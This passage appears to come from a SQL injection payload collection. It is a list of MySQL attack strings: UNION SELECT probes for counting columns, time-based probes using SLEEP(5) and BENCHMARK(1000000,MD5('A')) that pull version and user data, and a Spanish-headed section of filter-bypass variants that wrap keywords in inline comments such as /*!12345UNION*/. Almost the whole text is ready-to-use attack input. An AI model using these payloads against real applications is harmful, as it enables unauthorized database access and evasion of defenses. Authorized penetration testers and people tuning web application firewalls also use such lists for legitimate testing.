 ```
 UNION(SELECT 1,2,3,4,5,6,7)
 
 UNION ALL(SELECT 1)
 UNION ALL(SELECT 1,2)
 UNION ALL(SELECT 1,2,3)
 UNION ALL(SELECT 1,2,3,4)
 UNION ALL(SELECT 1,2,3,4,5)
 UNION ALL(SELECT 1,2,3,4,5,6)
 UNION ALL(SELECT 1,2,3,4,5,6,7)
 
 AND 1 UNION SELECT 1
 AND 1 UNION SELECT 1,2
 AND 1 UNION SELECT 1,2,3
 AND 1 UNION SELECT 1,2,3,4
 AND 1 UNION SELECT 1,2,3,4,5
 AND 1 UNION SELECT 1,2,3,4,5,6
 AND 1 UNION SELECT 1,2,3,4,5,6,7


```

### Union Select + sleep() + BENCHMARK(1000000,MD5('A')) Payloads

```
 UNION SELECT @@VERSION,SLEEP(5),3
 UNION SELECT @@VERSION,SLEEP(5),USER(),4
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
 
```

### tecnicas para hacer bypass en sql inyection 

#### bypass usando comentarios
```
 /*!UNION*/ /*!SELECT*/ 1
 /*!UNION*/ /*!SELECT*/ 1,2
 /*!UNION*/ /*!SELECT*/ 1,2,3
 /*!UNION*/ /*!SELECT*/ 1,2,3,4
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6,7
 
 /*!12345UNION*/ /*!12345SELECT*/ 1
 /*!12345UNION*/ /*!12345SELECT*/ 1,2
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6,7
 
 /*!12345UNION*/(/*!12345SELECT*/ 1)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6,7)

```